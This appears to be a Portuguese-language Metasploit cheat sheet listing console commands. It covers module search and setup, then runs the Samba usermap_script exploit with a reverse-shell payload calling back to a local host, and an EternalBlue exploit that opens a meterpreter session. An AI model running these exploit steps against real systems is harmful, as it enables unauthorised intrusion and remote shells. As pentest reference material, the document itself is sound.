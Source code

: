 # Comandos básicos do Metasploit-Framework

## Listar base de exploits do Kali Linux

$searchsploit <name service> [smb, dns, http, smtp, ftp, Apache, ProFTPd, vsftpd, samba, etc]

## Diretório do Metasploit-Framework

$ls -l /usr/share/metasploit-framework

## Run Metasploit-Framework

$sudo service postgresql start

$sudo msfdb init

$sudo msfconsole

msf > db_status

msf > help

msf > help search

msf > history

msf > show [auxiliary, exploits, payloads, options, targets, advanced, encoders, nops]

msf > search scanner

msf > search name:mysql

msf > search type:exploit platform:windows

msf > search type:exploit rank:great

msf > search cve:2022 platform:windows type:exploit

msf > grep http search oracle

msf > search type:exploit usermap_script

msf > info exploit/multi/samba/usermap_script

msf > use exploit/multi/samba/usermap_script

msf exploit(multi/samba/usermap_script) > help

msf exploit(multi/samba/usermap_script) > info

msf exploit(multi/samba/usermap_script) > show -h

msf exploit(multi/samba/usermap_script) > show targets

msf exploit(multi/samba/usermap_script) > show options

msf exploit(multi/samba/usermap_script) > show payloads

msf exploit(multi/samba/usermap_script) > set RHOST IP_Address_Target

msf exploit(multi/samba/usermap_script) > set PAYLOAD cmd/unix/reverse

msf exploit(multi/samba/usermap_script) > set LHOST IP_Address_Local_Host

msf exploit(multi/samba/usermap_script) > unset PAYLOAD

msf exploit(multi/samba/usermap_script) > unset all

msf exploit(multi/samba/usermap_script) > run

msf exploit(multi/samba/usermap_script) > back

msf > jobs

msf > kill 0

msf > sessions -l

msf > connect 192.168.1.123 23

msf > exit

## Run Exploit Sessions in Backgroung

msf exploit(windows/smb/ms17_010_eternalblue) > exploit

meterpreter > background

msf exploit(windows/smb/ms17_010_eternalblue) > sessions

msf exploit(windows/smb/ms17_010_eternalblue) > sessiosn -i 1

meterpreter >
